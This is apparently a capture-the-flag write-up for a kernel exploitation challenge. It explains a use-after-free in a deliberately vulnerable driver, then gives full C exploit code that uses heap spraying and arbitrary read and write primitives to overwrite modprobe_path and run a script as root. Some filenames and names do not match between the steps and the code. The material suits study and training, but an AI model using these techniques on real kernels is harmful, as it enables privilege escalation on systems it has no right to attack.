



Spraying the kernel heap for fun, profit and filling up holes.

<!--more-->

## Problem Statement

Create a poc that **exploits the kernel driver** to gain root access and **write a file to root directory**.
The poc should include some explanation of the exploit, your source code and a binary that exploits the vulnerability.

credentials: two users madmax and root

```
madmax: madmax
root:Immortan
```

Send the poc to : `xxxxxx[REDACTED]xxxxxxxx@gmail.com` together with your ctfd username and email.

```
Files https://drive.google.com/file/d/1X6bSq0f0SlD2OKDTG5Dqw0utxlRqgyBn/view?usp=sharing
```

## Bugs

1.  UAF in `tanker`
    -   The free'd tanker struct is not set to NULL.
    

## Exploit

1.  Spray `cred_jar` by creating lots of processes.
2.  Spray `kmalloc-128` by opening lots of `fds` to `/proc/self/stat`
3.  Allocate 2x tanker
4.  Free 2x tanker
5.  Now allocation requests to `kmalloc-128` have chance of being served the just free'd pointers
6.  Spray `msg_msg` and `seq_operations` one after another, to make sure the UAF slots get pointers to `msg_msg` (which contains heap ptr) and `seq_operations` (which contains kernel text)
7.  `read_fuel_line` on `tankers[1]` to leak kernel heap address. Now `leaked_addr` - 0x80 = `*tankers[0]`
8.  Craft arb read and arb write primitives with read_fuel_line and write_fuel_line.
9.  arb_red to leak kernel text, find kernel base, then find modprobe_path
10. Overwrite modprobe_path with `/tmp/a`
11. Create `/tmp/a` shellscript which creates file `/root/i_finally_won_kpwn_hard`
12. Win!


## Exploit Code

Main exploit

```c
#define _GNU_SOURCE
#include <sys/ioctl.h>

#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/msg.h>
#include <sched.h>
#include "lib.h"

int fd = -1;
int current_primitive = 0;

int seq_fds[500];
int msqids[100];

void pin_process() {
    cpu_set_t set;
    CPU_ZERO(&set);
    CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set);
    printf("[+] Process pinned to CPU 0\n");
}

void spray_creds_cache() {
    printf("[*] Spraying creds cache...\n");
    for (int i = 0; i < 800; i++) {
        pid_t pid = fork();
        if (pid == 0) {
            pause();
        }
    }
    printf("[+] Forked 800 processes\n");
}

int main(void) {
    pin_process();
    spray_creds_cache();

    // fill kmalloc-128
    for (int i = 0; i < 600; i++) {
        seq_fds[i] = open("/proc/self/stat", O_RDONLY);
        if (seq_fds[i] < 0) {
            perror("open /proc/self/stat");
        }
    }


    for (int i = 0; i < 2; i++) {
        alloc_war_rig(i);
    }
    printf("[+] Allocated 2 war_rigs\n");

    for (int i = 0; i < 2; i++) {
        free_war_rig(i);
    }
    printf("[+] Free'd 2 war_rigs\n");

    struct {
        long mtype;
        char mtext[0x40 - sizeof(long)];
    } msg;

    int spray_round = 0;
    for (int round = 0; round < 3; round++) {
        // Create message queue for this round
        msqids[round] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
        if (msqids[round] < 0) {
            perror("msgget");
            continue;
        }

        for (int i = 0; i < 30; i++) {
            // we do this, to ensure that:
            // i'th slot contains msg_msg (contains heap ptr in the first 8 bytes of fuel_line)
            // i+1'th slot contains seq_operations (first element is a kernel text address)

            msg.mtype = 1;
            memset(msg.mtext, 0xAA, sizeof(msg.mtext));
            if (msgsnd(msqids[round], &msg, sizeof(msg.mtext), IPC_NOWAIT) < 0) {
                perror("msgsnd");
            }

            int idx = 100 + spray_round++;
            seq_fds[idx] = open("/proc/self/stat", O_RDONLY);
            if (seq_fds[idx] < 0) {
                perror("open /proc/self/stat");
            }
        }
    }
    printf("[+] Sprayed ~90 msg_msg and ~90 seq_operations alternately\n");

    uint64_t res[2];
    for (int i = 0 ; i < 2; i++) {
        read_fuel_line(i, &res[i]);
    }


    uint64_t kernel_addr;

    current_primitive = 2;

    arb_addr_read(res[1] - 0x80, &kernel_addr );
    printf("leaked kernel text is: %#lx\n", kernel_addr);
    kernel_addr -= 0x267df0;
    printf("leaked kernel base is: %#lx\n", kernel_addr);

    uint64_t modprobe_path_addr = kernel_addr + 0x1b90ea0;
    printf("modprobe_path is at: %#lx", modprobe_path_addr );

    uint64_t tmp_a_u64 = 106856377578543;

    arb_addr_write(modprobe_path_addr, tmp_a_u64);
    printf("wrote modprobe_path. Should be piece of cake fromnow.");


    // Create the exploit script at /tmp/x
    system("echo '#!/bin/sh' > /tmp/a");
    system("echo 'touch /root/i_win_finally_kpwn_hard' >> /tmp/a");
    system("chmod 777 /tmp/a");

    printf("[+] Created exploit script at /tmp/a\n");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/fake");
    system("chmod +x /tmp/fake");
    printf("[+] Created fake binary at /tmp/fake\n");

    printf("[+] Trigger modprobe_path by executing /tmp/fake....\n");

    return 0;
}
```

IOCTL Interface code

```c
#include "lib.h"
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>


int alloc_war_rig(uint64_t idx) {
    uint64_t arg = idx;
    int ret = ioctl(fd, CMD_ALLOC_WAR_RIG, &arg);

    if (ret == 0) {
        printf("[+] Allocated war_rig at garage[%lu]\n", idx);
    } else {
        printf("[-] Failed to allocate war_rig at garage[%lu]: ret=%d\n", idx, ret);
    }

    return ret;
}

int free_war_rig(uint64_t idx) {
    uint64_t arg = idx;
    int ret = ioctl(fd, CMD_FREE_WAR_RIG, &arg);

    if (ret == 0) {
        printf("[+] Freed war_rig at garage[%lu] (UAF TRIGGERED!)\n", idx);
    } else {
        printf("[-] Failed to free war_rig at garage[%lu]: ret=%d\n", idx, ret);
    }

    return ret;
}

int alloc_guzzoline(uint64_t idx, struct guzzoline *data) {
    struct {
        uint64_t idx;
        char data[0x40];
    } arg;

    arg.idx = idx;
    memcpy(arg.data, data->data, 0x40);

    int ret = ioctl(fd, CMD_ALLOC_GUZZOLINE, &arg);

    if (ret == 0) {
        printf("[+] Allocated guzzoline at tanker[%lu]\n", idx);
    } else {
        printf("[-] Failed to allocate guzzoline at tanker[%lu]: ret=%d\n", idx, ret);
    }

    return ret;
}

int read_fuel_line(uint64_t idx, uint64_t *out) {
    struct {
        uint64_t idx;
        uint64_t data;
    } arg;

    arg.idx = idx;
    arg.data = 0;

    int ret = ioctl(fd, CMD_READ_FUEL_LINE, &arg);

    if (ret == 0) {
        *out = arg.data;
        printf("[+] Read from garage[%lu]->fuel_line: 0x%lx\n", idx, *out);
    } else {
        printf("[-] Failed to read from garage[%lu]->fuel_line: ret=%d\n", idx, ret);
    }

    return ret;
}

int write_fuel_line(uint64_t idx, uint64_t data) {
    struct {
        uint64_t idx;
        uint64_t data;
    } arg;

    arg.idx = idx;
    arg.data = data;

    int ret = ioctl(fd, CMD_WRITE_FUEL_LINE, &arg);

    if (ret == 0) {
        printf("[+] Wrote 0x%lx to garage[%lu]->fuel_line\n", data, idx);
    } else {
        printf("[-] Failed to write to garage[%lu]->fuel_line: ret=%d\n", idx, ret);
    }

    return ret;
}


void arb_addr_read(uint64_t address, uint64_t *res) {
    alloc_war_rig(current_primitive);
    free_war_rig(current_primitive);

    struct guzzoline guz;
    memcpy(&guz.data, &address, 8);
    alloc_guzzoline(current_primitive, &guz);

    read_fuel_line(current_primitive, res);

    current_primitive += 1;
}

void arb_addr_write(uint64_t address, uint64_t data) {
    alloc_war_rig(current_primitive);
    free_war_rig(current_primitive);

    struct guzzoline guz;
    memcpy(&guz.data, &address, 8);

    alloc_guzzoline(current_primitive, &guz);

    write_fuel_line(current_primitive, data);

    current_primitive += 1;
}


__attribute__((constructor))
static void init(void)  {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    printf("[*] Opening /proc/madmax...\n");
    fd = open("/proc/madmax", O_RDWR);

    if (fd < 0) {
        perror("[-] Failed to open /proc/madmax");
        exit(1);
    }

    printf("[+] Opened /proc/madmax (fd=%d)\n\n", fd);
}


__attribute__((destructor))
static void deinit(void)  {
    close(fd);
}
```

Makefile to compile exploit

```make
CFLAGS=--target=aarch64-linux-gnu -g -Os lib.c
CC=zig cc

.PHONY: copy
copy: solve
	scp -P 10021 -r $^   madmax@localhost:/home/madmax/

```

## Flag






